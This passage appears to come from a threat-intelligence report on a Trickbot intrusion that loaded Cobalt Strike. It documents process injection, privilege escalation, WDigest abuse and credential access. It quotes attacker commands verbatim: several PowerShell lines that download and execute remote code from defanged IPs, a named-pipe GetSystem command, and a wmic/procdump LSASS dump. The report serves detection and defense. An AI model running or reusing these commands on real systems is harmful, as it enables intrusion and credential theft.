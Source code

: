 

Trickbot utilized the same instance of wermgr.exe to load Cobalt Strike beacons into memory using PowerShell, which remained active throughout the intrusion:
- cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://23.19.227[.]147:80/atryhdthgfhfhf'))"
- cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://108.62.118[.]247:80/adfsdgsdg'))"
- cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://5.199.162[.]3:80/adhrdbh'))"
- cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://212.114.52[.]180:80/atyukloyuiluiyluiyl'))"

The fake setup installer (Setup1.exe) which was seen during the lateral movement stage, was dropped and executed on multiple systems, including the domain controllers.



# Persistence

The launcher.bat file, which triggers the Trickbot executable, is set to start via a scheduled task:

# Privilege Escalation

The GetSystem named pipe impersonation technique was observed to obtain SYSTEM-level privileges on the domain controller.

cmd.exe /c echo 31b925aa0f7 > \\.\pipe\8945a5

# Defense Evasion

To prepare for code injection, the Trickbot executable allocated memory in the address space of the Windows system process “wermgr.exe” (Windows Error Reporting Module).

The injected wermgr.exe process then called svchost.exe (without any command line arguments), which in turn was used to run various reconnaissance commands. More about that in the “Discovery” section below.

# Credential Access

The threat actor enabled WDigest authentication by changing the value of the “UseLogonCredential” object from 0 to 1 in the Windows registry. This enforces the storage of credentials in plaintext on future logins.

Procdump v9.0 (SHA1: d1387f3c94464d81f1a64207315b13bf578fd10c) was downloaded using PowerShell and used to dump the LSASS process to disk.

wmic /node:"<redacted>" process call create "cmd /c c:\perflogs\procdump.exe -accepteula -ma lsass c:\perflogs\lsass.dmp"

# Discovery

